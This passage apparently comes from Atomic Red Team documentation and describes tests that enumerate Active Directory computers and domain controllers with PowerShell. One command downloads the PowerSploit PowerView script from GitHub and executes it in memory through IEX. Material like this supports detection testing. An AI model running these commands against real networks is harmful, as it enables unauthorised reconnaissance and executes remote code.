 
**auto_generated_guid:** 64ede6ac-b57a-41c2-a7d1-32c6cd35397d






#### Attack Commands: Run with `powershell`! 


```powershell
([adsisearcher]"objectcategory=computer").FindAll(); ([adsisearcher]"objectcategory=computer").FindOne()
```






<br/>
<br/>

## Atomic Test #19 - Get-DomainController with PowerView
Utilizing PowerView, run Get-DomainController to identify the Domain Controller. Upon execution, information about the domain controller within the domain will be displayed.

**Supported Platforms:** Windows


**auto_generated_guid:** b9d2e8ca-5520-4737-8076-4f08913da2c4






#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (IWR 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1' -UseBasicParsing); Get-DomainController -verbose
```






<br/>
<br/>

## Atomic Test #20 - Get-WmiObject to Enumerate Domain Controllers
The following Atomic test will utilize get-wmiobject to enumerate Active Directory for Domain Controllers.
Upon successful execution a listing of Systems from AD will output with their paths.
Reference: https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/get-wmiobject?view=powershell-5.1

**Supported Platforms:** Windows
